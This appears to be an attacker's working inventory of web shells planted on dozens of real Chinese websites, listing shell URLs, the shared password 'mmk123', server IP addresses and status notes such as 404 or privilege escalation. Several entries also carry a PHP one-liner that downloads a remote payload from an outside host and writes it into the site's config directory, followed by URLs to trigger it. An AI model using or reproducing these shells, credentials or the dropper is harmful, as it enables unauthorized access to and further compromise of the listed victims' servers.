 http://sc-lexus.com.cn/editor/plugins/div/dialogs/m12.php |mmk123 |  101.132.249.167  | 404

http://lvsenlong.cn/template/default/fileinput/img/m12.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
http://lvsenlong.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://lvsenlong.cn/config/httpd.php?d=up

http://www.izangyao.com/upload/ckeditor/images/1m12.php |mmk123 |  101.132.249.167   404
http://iboate.com/editor/skins/office2003/images/m12.php |mmk123 |  101.132.249.167
https://www.i-orange.com.cn/template/orange/js/admin/m12.php |mmk123 |  101.132.249.167
http://hkdhsj.com/editor/plugins/dialog/m12.php |mmk123 |  101.132.249.167

http://gediaomedia.com/template/default/js/m123.php |mmk123 |http://www.scgzw.org/ ->D:/www/gzw_frontend/ | 101.132.249.167
代码更新：0608 ✅
http://gediaomedia.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://gediaomedia.com/config/httpd.php?d=up
http://gediaomedia.com/template/default/js/m123.php |mmk123 |  101.132.249.167

https://flyger.cn/static/backup/upgrade/20240129141018/apps/home/model/33.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
https://flyger.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://flyger.cn/config/httpd.php?d=up

http://cdfengchangyl.com/template/fcyl/js/m123.php |mmk123 |  101.132.249.167 | 404
http://www.hs-himin.com/static/upload/image/20230602/3m.php |mmk123 |  120.27.14.20
http://www.hehuedu.com/static/upload/image/20230816/13.php |mmk123 |  211.149.140.131
http://www.retay-sign.com/static/upload/image/20220521/13.php |mmk123 |  60.247.166.105
https://www.taiyedrill.com/static/upload/image/20220928/3m.php |mmk123 |  47.92.31.194
http://www.zjnfby.com/static/upload/image/20220218/13.php |mmk123 |  81.68.249.222
http://en.sdmlqp.com/static/upload/image/20220518/3m.php |mmk123 |  211.149.190.167  无法创建PHP
http://taiyedrill.com/static/upload/image/20220827/3m.php |mmk123 |  47.92.31.194  连接不上
http://charge.cqjinhesy.com/static/upload/image/20210326/3m.php |mmk123 |  106.55.241.55
http://www.dzdarui.com/static/backup/upgrade/20191026221101/apps/common/3m.php |mmk123 |提权 | 39.98.229.127
https://cs.gpzyjy.com/uploads/220412/3m.php |mmk123 |  8.141.57.49
http://www.nicoc.com.cn/dd.php |big |big | 103.18.206.8

http://www.jsyshj.com/static/upload/image/20230618/3m.php |mmk123 |  122.10.97.181
代码更新：0608  失败 无法加密
http://www.jsyshj.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.jsyshj.com/config/httpd.php?d=up
